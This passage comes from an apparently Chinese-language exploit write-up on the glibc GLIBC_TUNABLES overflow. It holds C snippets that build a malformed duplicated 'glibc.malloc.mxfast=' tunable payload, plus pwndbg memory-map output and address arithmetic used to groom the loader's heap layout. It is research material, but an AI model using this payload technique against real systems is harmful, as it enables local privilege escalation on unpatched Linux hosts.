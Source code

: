 ```plain
    for (size_t i = prefixLength; i < sizeof(fill) - 1; i++) {
        fill[i] = 'A';
    }
    fill[sizeof(fill) - 1] = '\0';
    void *allocatedMemory = __minimal_malloc(0xd00 + 1);
    free(allocatedMemory);

    return 0;
}
```

```plain
RAX  0x7f4109f8f2e0 ?— 0x0  
pwndbg> vmmap
0x7f4109f8c000     0x7f4109f90000 rw-p     4000 37000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
> hex(0x7f4109f8f2e0 + 0xd01)
'0x7f4109f8ffe1'
> hex(0x7f4109f90000 - 0x7f4109f8ffe1)
'0x1f'
```

如果在程序的后续部分，通过 `malloc` 或其他内存分配函数再次请求超过剩余内存大小（0x1f 字节）的内存，系统可能会选择使用 `mmap` 来映射一个新的内存区域，以满足这个较大的分配请求。

**再次设置环境变量**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void* __minimal_malloc(size_t size) {
    // 实现 __minimal_malloc 的代码，这里简单地使用标准库的 malloc 作为示例
    return malloc(size);
}
int main() {
    char *payload = (char*)__minimal_malloc(PAYLOAD_SIZE);

    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=";
    strcpy(payload, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < PAYLOAD_SIZE - 1; i++) {
        payload[i] = 'B';
    }
    payload[PAYLOAD_SIZE - 1] = '\0';
    free(payload);
    return 0;
}
```

```plain
*RAX  0x7f4109f52000 ?— 0x0     # malloc 的返回值
pwndbg> vmmap
  0x7f4109f52000     0x7f4109f54000 rw-p     2000 0      [anon_7f4109f52]
> hex(0x7f4109f52000 + 0x100)
'0x7f4109f52100'
```
